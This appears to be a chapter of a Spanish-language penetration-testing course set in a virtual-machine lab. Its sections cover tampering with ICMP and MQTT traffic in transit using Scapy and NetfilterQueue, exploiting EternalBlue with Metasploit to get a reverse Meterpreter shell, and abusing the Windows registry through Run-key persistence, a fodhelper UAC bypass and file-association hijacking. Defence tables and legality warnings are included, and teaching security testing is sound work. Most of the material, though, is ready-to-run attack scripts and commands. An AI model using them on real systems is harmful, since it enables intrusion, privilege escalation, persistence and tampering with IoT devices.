ICMP (**Internet Control Message Protocol**) es el protocolo usado para mensajes de control y error en redes IP. Su forma más conocida es el **ping** (echo request/reply).

🔍 **Ejemplo básico de ICMP:**

```bash
ping 192.168.1.1
```

Esto envía paquetes ICMP tipo "echo request", y el router responde con "echo reply".

---

### 🧬 ¿Qué es Polymorph?

**Polymorph**, en este contexto, no es la herramienta de evasión de AV que vimos antes, sino un **sistema de manipulación dinámica del tráfico de red**, incluyendo paquetes ICMP. Es decir, se puede modificar en tiempo real el contenido de los paquetes ICMP que pasan por nuestra red.

⚠️ **Nota importante:** No existe un proyecto oficial llamado “Polymorph ICMP” que sea universal, pero sí se pueden crear scripts polimórficos personalizados con herramientas como:

- **Scapy** (Python)
- **NetfilterQueue** (para interceptar)
- **iptables** (para redirigir tráfico al script)
- En este ejemplo llamaremos a este enfoque personalizado: **Polymorph-ICMP**

---

### 🧪 Entorno de laboratorio en máquinas virtuales

| Máquina        | Sistema operativo | Rol      |
| -------------- | ----------------- | -------- |
| Kali Linux     | Kali              | Atacante |
| Ubuntu/Windows | Cliente víctima   | Víctima  |

🔗 Ambas deben estar conectadas en **la misma red virtual** (por ejemplo: “Red interna” o “Adaptador puente” en VirtualBox o VMware).

---

### 🛠️ Instalación de herramientas necesarias

#### En Kali Linux (máquina atacante):

```bash
sudo apt update
sudo apt install python3 python3-pip iptables -y
pip3 install scapy netfilterqueue
```

---

### ⚙️ Preparar el script: manipular paquetes ICMP en tiempo real

Vamos a interceptar paquetes ICMP (por ejemplo, `ping`) y **modificar su contenido** antes de que lleguen a su destino.

#### 📁 Crea un archivo llamado `icmp_modifier.py`

```python
from netfilterqueue import NetfilterQueue
from scapy.all import *

def modify_icmp(pkt):
    scapy_pkt = IP(pkt.get_payload())

    if scapy_pkt.haslayer(ICMP):
        if scapy_pkt[ICMP].type == 8:  # Echo Request
            print(f"[+] ICMP Echo Request capturado de {scapy_pkt[IP].src}")

            # Modificar el mensaje dentro del paquete
            if scapy_pkt.haslayer(Raw):
                data = scapy_pkt[Raw].load.decode(errors='ignore')
                new_data = data.replace("ping", "hack")
                scapy_pkt[Raw].load = new_data.encode()

                # Recalcular longitudes y checksums
                del scapy_pkt[IP].len
                del scapy_pkt[IP].chksum
                del scapy_pkt[ICMP].chksum

                pkt.set_payload(bytes(scapy_pkt))

    pkt.accept()

nfqueue = NetfilterQueue()
nfqueue.bind(0, modify_icmp)

try:
    print("[*] Escuchando paquetes ICMP y modificando...")
    nfqueue.run()
except KeyboardInterrupt:
    print("\n[!] Interrumpido por el usuario.")
```

---

### 🔥 Activar redirección de paquetes con iptables

```bash
sudo iptables -I FORWARD -p icmp -j NFQUEUE --queue-num 0
```

> Esto intercepta todos los paquetes ICMP que pasan por Kali.

---

#### ▶️ Ejecutar el script

En Kali:

```bash
sudo python3 icmp_modifier.py
```

---

#### 🧪 Probar desde la máquina víctima

Desde Ubuntu o Windows (víctima), ejecuta:

```bash
ping -s 32 192.168.1.10
```

(Sustituye `192.168.1.10` por la IP de Kali)

Ahora, si el texto enviado contiene la palabra “ping”, el script la reemplazará por “hack” en tiempo real antes de que llegue a su destino.

Puedes usar **Wireshark** en la máquina atacante para verificar la manipulación.

---

### 🧹 Restaurar iptables después de la prueba

Muy importante: deja tu sistema limpio al finalizar.

```bash
sudo iptables -F
```

---

### 🧠 ¿Qué logramos?

Manipulamos paquetes ICMP **en tiempo real**:

- Interceptamos paquetes con `NetfilterQueue`
- Usamos `Scapy` para leer y modificar el contenido
- Alteramos el payload (mensaje) y lo reenviamos
- El receptor recibe un paquete diferente del original

---

### 🛡️ ¿Cómo defenderse?

| Defensa                     | Explicación                          |
| --------------------------- | ------------------------------------ |
| Cifrado extremo a extremo   | ICMP no cifra nada por defecto       |
| Firewalls bien configurados | Bloquear ICMP innecesario            |
| Monitoreo con IDS           | Detecta patrones anormales en ICMP   |
| Usar VPN                    | Evita manipulación local del tráfico |

---

### ✅ Resumen

| Tema                  | Detalle                                            |
| --------------------- | -------------------------------------------------- |
| ¿Qué hicimos?         | Manipulación de paquetes ICMP en tiempo real       |
| ¿Herramientas usadas? | Scapy, NetfilterQueue, iptables                    |
| ¿En qué entorno?      | Máquinas virtuales Kali y Ubuntu/Windows           |
| ¿Ejemplo?             | Reemplazar "ping" por "hack" en el mensaje ICMP    |
| ¿Precaución?          | Solo para uso en laboratorio o pruebas autorizadas |

---

[🔼](#índice)

---

## **79. Polymorph: Manipulación de tráfico MQTT**

### 📦 ¿Qué es MQTT?

MQTT (Message Queuing Telemetry Transport) es un protocolo **ligero de mensajería** basado en el modelo **publicador / suscriptor**.

### 🧠 ¿Dónde se usa?

- **Internet de las Cosas (IoT)** – sensores, cámaras, dispositivos inteligentes.
- **Domótica** – como Home Assistant, Shelly, ESP32, etc.
- **Aplicaciones industriales** que necesitan comunicación constante pero eficiente.

---

### 📡 ¿Cómo funciona MQTT?

| Rol        | Descripción                                         |
| ---------- | --------------------------------------------------- |
| Broker     | Servidor que recibe y distribuye los mensajes       |
| Publisher  | Cliente que envía datos a un “topic”                |
| Subscriber | Cliente que se suscribe a un “topic” para recibirlo |

🔁 **Ejemplo**:

Un sensor (publisher) envía temperatura a `topic: sensores/temp`.
Un sistema domótico (subscriber) recibe ese dato.

---

#### 🧪 ¿Qué es manipulación de tráfico MQTT (tipo Polymorph)?

Modificar el contenido del tráfico MQTT **en tiempo real**, por ejemplo:

- Cambiar datos como temperatura, estado de sensores, comandos.
- Suplantar mensajes para controlar dispositivos falsamente.
- Hacerlo de forma **polimórfica**, es decir, **camuflada** para evadir detecciones.

---

### 🎯 Objetivo del laboratorio

Manipular un mensaje MQTT en tránsito, en una red local, modificando su contenido **antes de que llegue al broker** o al suscriptor.

---

#### 🧰 Requisitos (entorno virtual)

| Máquina          | Sistema      | Rol              |
| ---------------- | ------------ | ---------------- |
| Kali Linux       | Kali         | Atacante (MITM)  |
| Ubuntu/Debian    | Cliente MQTT | Publisher        |
| Otra Ubuntu/Win  | Cliente MQTT | Subscriber       |
| Mosquitto broker | Broker MQTT  | Servidor central |

---

#### 🛠️ Paso 1: Instalar broker y clientes MQTT

##### 🧩 En el broker (Ubuntu por ejemplo):

```bash
sudo apt update
sudo apt install mosquitto mosquitto-clients -y
```

Inicia el broker:

```bash
sudo systemctl start mosquitto
```

---

#### 🚶 Paso 2: Publicar y suscribirse

##### ✅ En un cliente (Publisher):

```bash
mosquitto_pub -h 192.168.1.100 -t sensores/temp -m "24.5"
```

##### ✅ En otro cliente (Subscriber):

```bash
mosquitto_sub -h 192.168.1.100 -t sensores/temp
```

Verás en pantalla:
`24.5`

---

#### 🔥 Paso 3: Instalar herramientas de manipulación en Kali

```bash
sudo apt install python3-pip
pip3 install scapy netfilterqueue
```

---

#### 🧪 Paso 4: Script de manipulación MQTT (Polymorph-style)

Crea un archivo llamado `mqtt_modifier.py`:

```python
from netfilterqueue import NetfilterQueue
from scapy.all import *

def process(pkt):
    scapy_pkt = IP(pkt.get_payload())

    if scapy_pkt.haslayer(TCP) and scapy_pkt[TCP].dport == 1883:
        if scapy_pkt.haslayer(Raw):
            payload = scapy_pkt[Raw].load
            if b"24.5" in payload:
                print("[+] Mensaje MQTT detectado y modificado.")

                new_payload = payload.replace(b"24.5", b"99.9")

                scapy_pkt[Raw].load = new_payload
                del scapy_pkt[IP].len
                del scapy_pkt[IP].chksum
                del scapy_pkt[TCP].chksum

                pkt.set_payload(bytes(scapy_pkt))
    pkt.accept()

nfqueue = NetfilterQueue()
nfqueue.bind(0, process)

print("[*] Escuchando tráfico MQTT y manipulando en tiempo real...")
try:
    nfqueue.run()
except KeyboardInterrupt:
    print("[!] Cerrando...")
```

---

#### 🧰 Paso 5: Redirigir tráfico MQTT a tu script

```bash
sudo iptables -I FORWARD -p tcp --dport 1883 -j NFQUEUE --queue-num 0
```

(Esto intercepta paquetes que van al puerto MQTT)

---

#### ▶️ Paso 6: Ejecutar el script

```bash
sudo python3 mqtt_modifier.py
```

---

#### 🧪 Paso 7: Probar el resultado

1. En el cliente, publica:

```bash
mosquitto_pub -h 192.168.1.100 -t sensores/temp -m "24.5"
```

2. En el suscriptor (otro cliente), observarás:

```
99.9
```

✅ El mensaje ha sido **modificado en tránsito**, antes de llegar al suscriptor.

---

#### 🧹 Paso 8: Limpiar reglas iptables

```bash
sudo iptables -F
```

---

### 🚨 ¿Es esto legal?

No si se hace en redes que no te pertenecen. Solo hazlo en:

- 🔬 Laboratorios controlados
- ⚙️ Máquinas virtuales de pruebas
- 🔐 Entornos de pentesting con autorización

---

### 🛡️ ¿Cómo proteger MQTT contra ataques MITM?

| Defensa             | Cómo ayuda                                     |
| ------------------- | ---------------------------------------------- |
| TLS/SSL             | Cifra el tráfico MQTT para evitar modificación |
| Autenticación       | Requiere usuario/clave o certificados          |
| Topics restringidos | Limita qué puede publicar quién                |
| IDS/IPS             | Detecta tráfico MQTT anómalo                   |
| Firewalls           | Solo permitir IPs autorizadas                  |

---

### ✅ RESUMEN

| Elemento            | Detalles                                                        |
| ------------------- | --------------------------------------------------------------- |
| ¿Qué hicimos?       | Manipulamos mensajes MQTT (como “24.5” → “99.9”) en tiempo real |
| ¿Cómo lo hicimos?   | Interceptando con `netfilterqueue` + modificando con `scapy`    |
| ¿Dónde lo probamos? | En red virtual con Kali, broker Mosquitto y clientes MQTT       |
| ¿Para qué sirve?    | Pruebas de seguridad en IoT, detección de vulnerabilidades      |
| ¿Es legal?          | Solo en entornos autorizados o de laboratorio                   |

---

[🔼](#índice)

---

## **80. BONUS: Explotando una fallo de seguridad en Windows 10**

### ⚠️ IMPORTANTE

Este material es **solo para fines educativos** y debe usarse **exclusivamente en entornos controlados o con permisos explícitos**. Ejecutar estos ataques fuera de un laboratorio es **ilegal**.

---

### 🎯 OBJETIVO DEL BONUS

Simular cómo un atacante podría **explotar una vulnerabilidad conocida** en una máquina con **Windows 10**, usando **Kali Linux como atacante**, en un entorno de máquinas virtuales.

---

### 🧠 ¿Qué es una vulnerabilidad?

Una **vulnerabilidad** es una falla en el sistema (software, protocolo, permisos, etc.) que puede ser aprovechada por un atacante para obtener:

- Acceso remoto
- Escalamiento de privilegios
- Ejecución de código
- Robo de datos

---

### 🧪 Vulnerabilidad que usaremos como ejemplo:

**MS17-010** — conocida como **EternalBlue**.
Afecta Windows XP, 7, 8 y algunas versiones de Windows 10 (anteriores a parches de 2017).
Permite **ejecución remota de código (RCE)**.

Esta fue una de las vulnerabilidades usadas por **WannaCry**.

---

### 🖥️ Entorno de laboratorio

| Máquina    | Sistema Operativo  | Rol      |
| ---------- | ------------------ | -------- |
| Kali Linux | Kali (actualizado) | Atacante |
| Windows 10 | Versión sin parche | Víctima  |

> ⚠️ **La máquina Windows 10 debe tener desactivadas las actualizaciones automáticas** para reproducir vulnerabilidades antiguas.

---

#### 🛠️ Paso 1: Preparar la máquina Kali

##### ✅ Instalar Metasploit Framework (ya viene instalado en Kali, pero por si acaso):

```bash
sudo apt update
sudo apt install metasploit-framework -y
```

Iniciar Metasploit:

```bash
msfconsole
```

---

#### 🔍 Paso 2: Escanear la víctima (Windows 10)

Primero, identifica si la víctima tiene el puerto SMB abierto (puerto 445):

```bash
nmap -p 445 --script smb-os-discovery 192.168.1.105
```

(Usa la IP de la máquina Windows 10)

---

#### 🎯 Paso 3: Usar el exploit EternalBlue

Dentro de `msfconsole`, busca el módulo:

```bash
search eternalblue
```

Selecciona el exploit:

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

Configura el objetivo:

```bash
set RHOST 192.168.1.105
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.100  # Tu IP de Kali
set LPORT 4444
```

Inicia el exploit:

```bash
exploit
```

---

#### 🐚 Paso 4: Acceso remoto

Si la vulnerabilidad existe y se explota correctamente, obtendrás una **sesión Meterpreter**, que te da acceso completo:

```bash
meterpreter > sysinfo
meterpreter > shell
meterpreter > getuid
```

Podrás incluso:

- Leer archivos (`download`)
- Capturar pantallas (`screenshot`)
- Registrar pulsaciones (`keyscan_start`)
- Escalar privilegios (`getsystem`)

---

### 📚 ¿Qué aprendimos?

Hicimos una prueba controlada de un exploit contra Windows 10 vulnerable usando Metasploit.

---

### 🧹 ¿Cómo protegerse?

| Recomendación          | Descripción                                                |
| ---------------------- | ---------------------------------------------------------- |
| 🔒 Instalar parches    | MS17-010 fue parcheado en 2017                             |
| 🔥 Activar firewall    | Bloquear puerto SMB (445)                                  |
| 🔐 Usar antivirus      | Que detecte payloads tipo Meterpreter                      |
| 🌐 Segmentar redes IoT | Evita que dispositivos inseguros accedan a equipos Windows |
| 👀 Monitorear tráfico  | Detectar conexiones anómalas                               |

---

### ✅ RESUMEN

| Elemento             | Detalle                           |
| -------------------- | --------------------------------- |
| Vulnerabilidad usada | MS17-010 (EternalBlue)            |
| Sistema vulnerable   | Windows 10 sin parches            |
| Herramienta usada    | Metasploit (Kali Linux)           |
| Resultado            | Acceso remoto con Meterpreter     |
| Entorno              | Máquinas virtuales en red interna |

---

[🔼](#índice)

---

## **81. DEMO: Explotación avanzada WINREG**

### 🧠 ¿Qué es WINREG?

**WINREG** se refiere al **Windows Registry** (Registro de Windows), que es una **base de datos centralizada** donde Windows guarda:

- Configuraciones del sistema
- Información de software y drivers
- Cuentas de usuario
- Permisos
- Rutas de ejecución de programas

🔐 **Manipular el registro** es una técnica usada en ataques avanzados para:

- Persistencia
- Elevación de privilegios
- Ejecución de código arbitrario
- Evasión de antivirus

---

### 🎯 ¿Qué es la “Explotación avanzada de WINREG”?

Significa **abusar o modificar claves del registro** de Windows con fines maliciosos o de pentesting, por ejemplo:

- Crear una clave que ejecuta malware al inicio.
- Modificar políticas de seguridad del sistema.
- Redirigir ejecutables (hijacking de claves).
- Insertar un shell inverso al iniciar sesión.

---

### 🧪 DEMO EN MÁQUINAS VIRTUALES

| Máquina    | SO          | Rol      |
| ---------- | ----------- | -------- |
| Kali Linux | Kali (host) | Atacante |
| Windows 10 | Win10 Pro   | Víctima  |

**Ambas máquinas conectadas en red interna.**

---

#### 🔧 PASO 1: Configura el entorno

1. Instala **Kali Linux** y **Windows 10 sin antivirus** (para pruebas).
2. Asegúrate que estén en la misma red (usando “Red interna” en VirtualBox o adaptador puente).
3. En Windows 10, activa **compartición de archivos y RDP** para facilitar pruebas.

---

#### 🧪 PASO 2: Vector de entrada: Acceso remoto o físico

Supongamos que ya lograste acceso (por RDP, por exploit o físicamente).

Puedes usar:

- `reg.exe` (CLI nativa de Windows)
- `regedit.exe` (GUI)
- Herramientas como **Metasploit**, **Empire**, **PowerShell Empire**, o scripts en PowerShell para automatizar cambios.

---

#### 🧷 PASO 3: Técnica 1 — **Ejecución persistente al inicio (Run Key)**

##### Clave a modificar:

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
```

#### ¿Qué hace?

Todo lo que pongas aquí **se ejecuta al iniciar sesión**.

##### 🛠️ Cómo hacerlo manualmente:

1. Presiona `Win + R` → escribe `regedit`.
2. Navega a la clave mencionada.
3. Crea un nuevo valor de tipo `String`.
4. Nombre: `Updater`
5. Valor: `C:\Users\usuario\Downloads\payload.exe`

🔁 **Cada vez que el usuario inicie sesión**, ese payload se ejecutará.

---

#### ⚡ PASO 4: Técnica 2 — Hijacking de registro (fodhelper.exe)

##### 🧠 ¿Qué es?

`fodhelper.exe` es una utilidad legítima de Windows que **tiene ejecución con privilegios elevados (UAC)**.

##### 💥 El truco:

Puedes modificar el registro para que, al ejecutarse `fodhelper.exe`, ejecute _tu código_ como administrador **sin pedir permiso UAC**.

##### 🔧 Claves a crear:

```reg
[HKEY_CURRENT_USER\Software\Classes\ms-settings\Shell\Open\command]
@="cmd.exe"
"DelegateExecute"=""
```

##### 🛠️ Pasos:

1. Abre un símbolo del sistema (`cmd`) como usuario normal.
2. Ejecuta:

```cmd
reg add "HKCU\Software\Classes\ms-settings\Shell\Open\command" /ve /d "C:\Users\usuario\payload.exe" /f
reg add "HKCU\Software\Classes\ms-settings\Shell\Open\command" /v "DelegateExecute" /f
```

3. Luego ejecuta:

```cmd
fodhelper.exe
```

✅ ¡Tu payload se ejecutará con **privilegios elevados sin UAC**!

---

#### 🧬 PASO 5: Automatización desde Kali (con Meterpreter)

1. Ganas acceso con `msfconsole`:

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <tu IP Kali>
set LPORT 4444
run
```

2. En sesión Meterpreter:

```bash
reg setval -k HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run -v Updater -d C:\\Windows\\Temp\\evil.exe
```

3. También puedes ver claves del sistema:

```bash
reg queryval -k HKLM\\SYSTEM\\CurrentControlSet\\Services\\ -v Start
```

---

#### 🔐 PASO 6: Cómo defenderse

| Medida                                   | Protección                      |
| ---------------------------------------- | ------------------------------- |
| 🔒 No usar cuentas con admin por defecto | Limita alcance                  |
| 👀 Monitorizar claves Run y ms-settings  | Detecta persistencia            |
| 🧼 Hacer auditoría regular del registro  | Previene hijacking              |
| 🔐 Activar UAC al máximo                 | Bloquea ejecución automática    |
| 💉 Bloquear payloads por antivirus       | Evita que el malware se ejecute |

---

### ✅ RESUMEN

| Elemento             | Detalle                                                                |
| -------------------- | ---------------------------------------------------------------------- |
| ¿Qué hicimos?        | Abusamos del registro de Windows para ejecución persistente y escalada |
| Herramientas usadas  | `regedit`, `reg.exe`, `Meterpreter`, `fodhelper.exe`                   |
| Entorno de pruebas   | Máquinas virtuales Kali y Windows 10                                   |
| Técnicas demostradas | Claves Run y hijacking UAC sin elevación                               |
| Resultado            | Payload ejecutado con o sin privilegios automáticamente                |

---

[🔼](#índice)

---

## **82. ANEXO: Conferencia sobre la explotación de WINREG**

### 🎯 Objetivo de la conferencia

Explicar y demostrar **cómo los atacantes abusan del registro de Windows (WINREG)** para lograr:

- Persistencia
- Escalada de privilegios
- Evasión de UAC
- Ejecución remota de código
- Ocultamiento de malware

Todo dentro de un **laboratorio virtual controlado**, usando técnicas utilizadas en **pentesting** y **Red Team**.

---

### 🧠 ¿Qué es el Registro de Windows (WINREG)?

El **Registro de Windows** es una **base de datos jerárquica** que almacena configuraciones del sistema operativo, servicios, usuarios, software y hardware.

📁 Estructura general:

- `HKEY_LOCAL_MACHINE` – Configuración del sistema (global)
- `HKEY_CURRENT_USER` – Configuración del usuario actual
- `HKEY_CLASSES_ROOT` – Asociaciones de archivos
- `HKEY_USERS` – Todos los perfiles de usuario
- `HKEY_CURRENT_CONFIG` – Configuración actual de hardware

---

### 🧰 Entorno de laboratorio para la conferencia

#### 🔧 Máquinas virtuales necesarias

| Máquina    | Sistema Operativo | Rol      |
| ---------- | ----------------- | -------- |
| Kali Linux | Kali Rolling      | Atacante |
| Windows 10 | Win10 sin parche  | Víctima  |

**Configuración recomendada:**

- Red interna (VirtualBox o VMware)
- Habilitar carpetas compartidas o RDP (opcional)
- Windows Defender desactivado temporalmente para pruebas

---

### 🔨 Instalación de herramientas en Kali Linux

```bash
sudo apt update
sudo apt install metasploit-framework python3-pip
pip3 install impacket
```

---

### 🧪 DEMO 1 – Persistencia mediante claves `Run`

#### ¿Qué hace?

Inserta una clave para que un archivo `.exe` se ejecute **automáticamente al iniciar sesión**.

### Ruta del registro:

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
```

#### 💻 En Windows:

```cmd
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Updater /t REG_SZ /d "C:\Users\victima\evil.exe" /f
```

🧠 _Este comando crea una entrada en el registro que ejecuta “evil.exe” al iniciar sesión._

---

### 🧪 DEMO 2 – Bypass UAC con `fodhelper.exe`

#### ¿Qué es?

`fodhelper.exe` es una herramienta del sistema con **auto-elevación de privilegios (sin UAC prompt)**.

Si se modifica la clave `ms-settings`, puede ejecutar un ejecutable **sin que se muestre UAC**.

### Ruta:

```
HKEY_CURRENT_USER\Software\Classes\ms-settings\Shell\Open\command
```

#### 💻 En Windows (simulación):

```cmd
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /ve /d "C:\Users\victima\reverse_shell.exe" /f
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v "DelegateExecute" /f
```

Después:

```cmd
fodhelper.exe
```

✅ Ejecutará el payload **como administrador sin pedir contraseña**.

---

### 🧪 DEMO 3 – Hijacking de asociaciones de archivos

#### ¿Qué es?

Modificar las claves del registro para cambiar qué programa se ejecuta al abrir un tipo de archivo.

#### Ejemplo:

Redefinir `.txt` para abrir con `malware.exe`.

```cmd
reg add HKCR\txtfile\shell\open\command /ve /d "C:\Users\victima\malware.exe" /f
```

🧠 _Ahora al abrir un .txt, se ejecutará `malware.exe` primero._

---

### 🧬 DEMO 4 – Interacción desde Kali (con Meterpreter)

Una vez obtenido acceso remoto:

```bash
msfconsole
```

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <IP Kali>
set LPORT 4444
run
```

Dentro de la sesión:

```bash
reg enumkeys -k HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run
reg setval -k HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run -v update -d C:\\Users\\victima\\payload.exe
```

---

### 🛡️ SEGURIDAD: Cómo defenderse

| Técnica maliciosa              | Contramedida                       |
| ------------------------------ | ---------------------------------- |
| Claves `Run` para persistencia | Usar autoruns (Sysinternals)       |
| Hijacking con `fodhelper.exe`  | Monitorizar claves `ms-settings`   |
| Bypass de UAC                  | Configurar UAC en modo estricto    |
| Modificación por malware       | HIPS o herramientas EDR            |
| Ejecución automática           | Activar políticas GPO restrictivas |

---

### 🎓 Contenido sugerido para la conferencia

| Sección                    | Contenido                                                                   |
| -------------------------- | --------------------------------------------------------------------------- |
| Introducción               | Qué es el Registro de Windows, su función, y por qué es objetivo de ataques |
| Tipos de claves peligrosas | `Run`, `RunOnce`, `Shell`, `ms-settings`, `StartupApproved`, etc.           |
| Técnicas de explotación    | Persistencia, bypass UAC, hijacking de asociaciones, payload injection      |
| Demostraciones en vivo     | DEMO 1, 2, 3 y 4 en laboratorio virtual                                     |
| Contramedidas              | Cómo detectar y evitar estas técnicas                                       |
| Herramientas útiles        | Regedit, Autoruns, Metasploit, PowerShell, Sysinternals                     |
| Preguntas y respuestas     | Cierre e interacción con la audiencia                                       |

---

### 🎁 EXTRA: Sugerencia de práctica para la audiencia

> **Actividad práctica guiada**:
> "Crea un ejecutable falso (`notepad_fake.exe`), configura una entrada `Run` en el registro para ejecutarlo al inicio, y luego elimina la clave usando `reg delete`."

---

## ✅ RESUMEN

| Elemento                  | Detalle                                                               |
| ------------------------- | --------------------------------------------------------------------- |
| Tema de conferencia       | Explotación avanzada del registro de Windows                          |
| Público ideal             | Técnicos de seguridad, estudiantes de pentesting, administradores TI  |
| Máquinas virtuales usadas | Kali Linux (atacante), Windows 10 (víctima)                           |
| Técnicas mostradas        | Persistencia, UAC bypass, hijacking, ejecución remota                 |
| Resultado                 | Comprensión y demostración realista de cómo funciona un ataque WINREG |

---

[🔼](#índice)

---

| **Inicio**         | **atrás 7**                                                  | **Siguiente 9**                             |
| ------------------ | ------------------------------------------------------------ | ------------------------------------------- |
| [🏠](../README.md) | [⏪](./2_7_Explotacion_y_hacking_de_vulnerabilidades_web.md) | [⏩](./2_9_Tecnicas_de_Post_Explotacion.md) |
